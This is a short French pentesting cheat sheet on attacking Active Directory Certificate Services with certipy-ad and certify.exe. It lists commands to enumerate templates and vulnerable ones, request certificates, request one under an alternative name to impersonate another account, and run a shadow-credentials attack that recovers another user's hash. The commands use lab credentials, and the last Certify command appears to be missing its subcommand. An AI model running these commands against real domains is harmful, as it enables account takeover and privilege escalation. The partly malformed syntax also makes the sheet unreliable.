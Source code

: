 Utilisation de Certipy-ad ou certify.exe afin d'interragir avec le serveur de certificat.
### Différentes vulnérabilités

![Pasted image 20240109171310](../../../../Files/Pasted%20image%2020240109171310.png)
### 🐧 Linux (certipy-ad)

#### Installation:

```bash
pip install certipy-ad
```

#### Enumération des certificats:

```bash
certipy-ad find -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128

# Possibilité de récupérer les informations pour bloodhound:

certipy-ad find -u john@corp.local -p Passw0rd -bloodhound -dc-ip 172.16.126.128
```

#### Faire une demande de certificat (ici une demande du certificat User, sur le serveur de certificat corp-DC-CA et l'utilisateur john):

```bash
certipy-ad req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User
```

Si, dans bloodhound, on voit qu'un utilisateur peut écrire sur l'attribut `msDS-KeyCredentialLink` d'un autre compte, il est possible de récupérer le hash de cet autre compte (ici John peut écrire sur Jane):

```bash
certipy shadow auto -username John@corp.local -p Passw0rd -account Jane
```

---

### 🍔 Windows (certify.exe)

#### Enumération des certificats:

```powershell
certify.exe cas
```

#### Enumérer les templates:

```powershell
certify.exe find
```

#### Enumérer les templates vulnérables aux différentes attaques :

```powershell
certify.exe find /vulnerable
```

#### Demander un certificat:

```powershell
certify.exe /ca:host-serveur-certficat\DC-CA /template:certificat-vuln /altname:nom-alternatif
```
